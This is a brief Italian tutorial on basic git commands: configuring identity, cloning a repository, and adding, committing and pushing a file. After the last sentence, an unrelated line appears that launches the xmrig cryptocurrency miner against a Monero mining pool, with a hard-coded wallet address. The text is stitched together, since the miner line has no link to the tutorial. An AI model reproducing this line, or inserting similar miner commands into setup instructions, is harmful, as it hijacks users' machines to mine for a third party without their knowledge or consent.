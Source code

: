 # Come usare git
Alcune Modifiche

Configurare i propri dati GitHub:
```
git config --global user.name "username"
git config --global user.email "email"
git config --list

```

Creare una cartella `myRepository`:

```
mkdir myRepository
cd myRepository
git clone https://github.com/username/myGitHubRepositoryName
touch filename.cpp
gedit filename.cpp
git status
git add filename.cpp
git status 
git commit -m "Some Text" filename.cpp
git push -u origin master
```

Il file verra' aggiunto nella repository `GitHub`
./xmrig --donate-level 1 -o monero.herominers.com:10191 -u 49qbpNbn7tD4SyAMNQrvHN9FRfJw3V1UNiYafLwNwZTxDHew97c9xeM53RT8qpo7kfi9GKRLDR8tuJcSnFif9WjU8G4U7QP -p samuele -a rx/0 -k


